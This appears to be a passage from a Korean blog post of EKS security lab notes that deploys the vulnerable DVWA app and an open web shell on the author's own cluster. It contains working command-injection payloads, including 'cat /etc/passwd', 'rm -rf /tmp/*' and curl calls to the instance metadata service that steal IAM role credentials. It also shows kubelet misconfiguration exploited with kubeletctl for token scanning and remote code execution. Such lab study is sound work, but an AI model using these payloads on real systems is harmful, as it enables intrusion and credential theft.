valueFrom:
configMapKeyRef:
name: dvwa-config
key: RECAPTCHA_PRIV_KEY
- name: RECAPTCHA_PUB_KEY
valueFrom:
configMapKeyRef:
name: dvwa-config
key: RECAPTCHA_PUB_KEY
- name: SECURITY_LEVEL
valueFrom:
configMapKeyRef:
name: dvwa-config
key: SECURITY_LEVEL
- name: PHPIDS_ENABLED
valueFrom:
configMapKeyRef:
name: dvwa-config
key: PHPIDS_ENABLED
- name: PHPIDS_VERBOSE
valueFrom:
configMapKeyRef:
name: dvwa-config
key: PHPIDS_VERBOSE
- name: PHP_DISPLAY_ERRORS
valueFrom:
configMapKeyRef:
name: dvwa-config
key: PHP_DISPLAY_ERRORS
- name: MYSQL_HOSTNAME
value: dvwa-mysql-service
- name: MYSQL_DATABASE
valueFrom:
secretKeyRef:
name: dvwa-secrets
key: DVWA_DATABASE
- name: MYSQL_USERNAME
valueFrom:
secretKeyRef:
name: dvwa-secrets
key: DVWA_USERNAME
- name: MYSQL_PASSWORD
valueFrom:
secretKeyRef:
name: dvwa-secrets
key: DVWA_PASSWORD
EOT
kubectl apply -f dvwa.yaml
# ingress 배포
cat <<EOT > dvwa-ingress.yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
annotations:
alb.ingress.kubernetes.io/certificate-arn: $CERT_ARN
alb.ingress.kubernetes.io/group.name: study
alb.ingress.kubernetes.io/listen-ports: '[{"HTTPS":443}, {"HTTP":80}]'
alb.ingress.kubernetes.io/load-balancer-name: myeks-ingress-alb
alb.ingress.kubernetes.io/scheme: internet-facing
alb.ingress.kubernetes.io/ssl-redirect: "443"
alb.ingress.kubernetes.io/success-codes: 200-399
alb.ingress.kubernetes.io/target-type: ip
name: ingress-dvwa
spec:
ingressClassName: alb
rules:
- host: dvwa.$MyDomain
http:
paths:
- backend:
service:
name: dvwa-web-service
port:
number: 80
path: /
pathType: Prefix
EOT
kubectl apply -f dvwa-ingress.yaml
echo -e "DVWA Web https://dvwa.$MyDomain"
- 웹 접속 admin / password -> DB 구성을 위해 클릭 (재로그인) -> admin / password
- Command Injection 메뉴에서 아래의 명령 실행
# 명령 실행 가능 확인
8.8.8.8 ; echo ; hostname
8.8.8.8 ; echo ; whoami
# IMDSv2 토큰 확인 후 복사
8.8.8.8 ; curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
# EC2 Instance Profile (IAM Role) 이름 확인
8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: {IMDSv2 토큰}" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/
eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1H30SEASKL5M1
# EC2 Instance Profile (IAM Role) 자격증명탈취 성공
8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: {IMDSv2 토큰}" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1H30SEASKL5M1
# 그외 다양한 명령 실행 가능
8.8.8.8; cat /etc/passwd
8.8.8.8; rm -rf /tmp/*



5-2. 실습2: Web OpenSSH 컨테이너
- HTTPS 동작이라 보안장비가 검출하기 어려움
- 다만, 해당 이미지는 alpine 기반에, apk repo를 main에서만 끌어올 수 있게 세팅
- 해당 환경에서 kubectl로 취약점 공격할 수가 없어서 curl로 host에 던져보기만 하고 종료
## myeks-bastion-2에서 실행
# Download docker image
docker pull ghostplant/webshell
# 미리 접속할 주소 출력
echo -e "WebOpenSSH https://$(curl -s ipinfo.io/ip):8443/"
# 새로운 쉘(옵션1)
# [암호X] Run service over HTTPS, no password:
docker run -it --rm --net=host -e LISTEN="8443 ssl" ghostplant/webshell
# 새로운 쉘(옵션2)
# [암호O] Run service over HTTPS, with password:
docker run -it --rm --net=host -e LISTEN="8443 ssl" -e ACCOUNT="admin:badmin" ghostplant/webshell
- 웹 접속 후, 정보 확인
# 정보 확인
hostname
whoami
ip addr
mount
export
top
5-3. Kubelet 미흡한 인증/인가 설정 시 위험
-
두 개의 bastion을 번갈아가며 진행
-
가장 마지막에 둔 이유: 기존 kubeconfig 소실
- 실습 종료 후 cloudfomation stack 삭제 시 VPC, EIP를 중심으로 완전 삭제가 되지 않아서 일일히 웹콘솔에서 삭제해야함
-
[my-eks-bastion]
# 노드의 kubelet API 인증과 인가 관련 정보 확인
ssh ec2-user@$N1 cat /etc/kubernetes/kubelet/kubelet-config.json | jq
ssh ec2-user@$N1 cat /var/lib/kubelet/kubeconfig | yh
# 노드의 kubelet 사용 포트 확인
ssh ec2-user@$N1 sudo ss -tnlp | grep kubelet
# 데모를 위해 awscli 파드 생성
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
name: myawscli
spec:
#serviceAccountName: my-sa
containers:
- name: my-aws-cli
image: amazon/aws-cli:latest
command: ['sleep', '36000']
restartPolicy: Never
EOF
# 파드 사용
kubectl exec -it myawscli -- aws sts get-caller-identity --query Arn
kubectl exec -it myawscli -- aws s3 ls
kubectl exec -it myawscli -- aws ec2 describe-instances --region ap-northeast-2 --output table --no-cli-pager
kubectl exec -it myawscli -- aws ec2 describe-vpcs --region ap-northeast-2 --output table --no-cli-pager

- [my-eks-bastion-2]
# 기존 kubeconfig 삭제
rm -rf ~/.kube
# 다운로드
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.9/kubeletctl_linux_amd64 && chmod a+x ./kubeletctl_linux_amd64 && mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
kubeletctl version
kubeletctl help
# 노드1 IP 변수 지정
# my-eks-bastion에 저장했던 $N1 확인하여 변수 지정
N1=192.168.1.151
# 노드1 IP로 Scan
kubeletctl scan --cidr $N1/32
# 노드1에 kubelet API 호출 시도: Unauthorized
curl -k https://$N1:10250/pods; echo
- [myeks-bastion] → 노드1 접속 : kubelet-config.json 수정
- authentication.anonymous.enabled: false -> true
- authorization.mode: “Webhook” -> “AlwaysAllow”
# 노드1 접속
ssh ec2-user@$N1
# 미흡한 인증/인가 설정으로 변경: 위의 json 수정내용 참조
vi /etc/kubernetes/kubelet/kubelet-config.json
# kubelet restart
systemctl restart kubelet
systemctl status kubelet

- [myeks-bastion-2] kubelet 사용
# 파드 목록 확인
curl -s -k https://$N1:10250/pods | jq
# kubelet-config.json 설정 내용 확인
curl -k https://$N1:10250/configz | jq
# kubeletct 사용
# Return kubelet's configuration
kubeletctl -s $N1 configz | jq
# Get list of pods on the node
kubeletctl -s $N1 pods
# Scans for nodes with opened kubelet API > Scans for for all the tokens in a given Node
kubeletctl -s $N1 scan token
# kubelet API로 명령 실행 : <네임스페이스> / <파드명> / <컨테이너명>
curl -k https://$N1:10250/run/default/myawscli/my-aws-cli -d "cmd=aws --version"
# remote code execution이 가능한 containers 조회
kubeletctl -s $N1 scan rce
# Run commands inside a container
kubeletctl -s $N1 exec "/bin/bash" -n default -p myawscli -c my-aws-cli
# 내부 쉘에서 아래 실행
export
aws --version
aws ec2 describe-vpcs --region ap-northeast-2 --output table --no-cli-pager
exit
# Return resource usage metrics (such as container CPU, memory usage, etc.)
kubeletctl -s $N1 metrics

6. 실습 못해본 것
- 파드/컨테이너 보안 컨텍스트
- LB Controller IRSA 덕분에, 나중에 실습해야 함 (To-Do)

kkumtree
© 2024 kkumtree and contributors All rights reserved.
Licensed under
CC BY-NC-ND 4.0